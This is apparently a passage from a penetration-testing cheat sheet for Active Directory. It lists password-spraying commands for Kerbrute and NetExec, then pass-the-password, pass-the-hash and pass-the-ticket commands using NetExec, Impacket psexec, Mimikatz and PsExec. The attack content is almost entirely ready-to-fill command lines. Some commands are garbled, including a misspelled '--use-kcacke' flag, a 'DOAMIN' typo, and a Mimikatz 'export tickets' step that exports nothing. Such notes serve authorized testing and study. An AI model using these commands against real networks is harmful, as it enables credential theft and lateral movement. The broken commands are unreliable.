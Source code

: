 - Using **Kerbrute**:

```c
kerbrute passwordspray --dc <DC-IP> -d <DOMAIN> <USERLIST> <EXAMPLE-PASSWORD>
```

- Using **NetExec**:

```c
nxc smb <DC-IP> -u <USERLIST> -p <PASSWDLIST> --continue-on-success
```

## Active Directory Post Exploitation
---

### Pass Attacks
---

**NOTE:** To **Pass-the-Ticket** remotely (attacker's box), set the `KRB5CCNAME` env variable.
#### NetExec

- Use `--local-auth` for non-domain authentication

```c
# Pass-the-Password
netexec smb <TARGET> -u 'USERNAME' -p 'PASSWD' -d 'DOMAIN'

# Pass-the-Hash
netexec smb <TARGET> -u 'USERNAME' -H 'NTHASH' -d 'DOMAIN'

# Pass-the-Ticket
netexec smb <FQDN> --use-kcacke
```

#### Impacket

```python
# Pass-the-Password
impacket-psexec DOMAIN/user:'PASSWORD'@target

# Pass-the-Hash
impacket-psexec -hashes <NTLM> DOMAIN/user@target

# Pass-the-Ticket
impacket-psexec -k -no-pass DOAMIN/user@target
```

#### Mimikatz

- Pass-the-Ticket

```c
# Export tickets (requires system)
mimikatz.exe "privilege::debug" "exit"

# Load the ticket into memory
mimikatz.exe "kerberos::ptt ticket.kirbi" "exit"

# List tickets loaded from cmd
klist

# Enter a session with psexec.exe
.\PsExec.exe -accepteula \\target cmd.exe
```
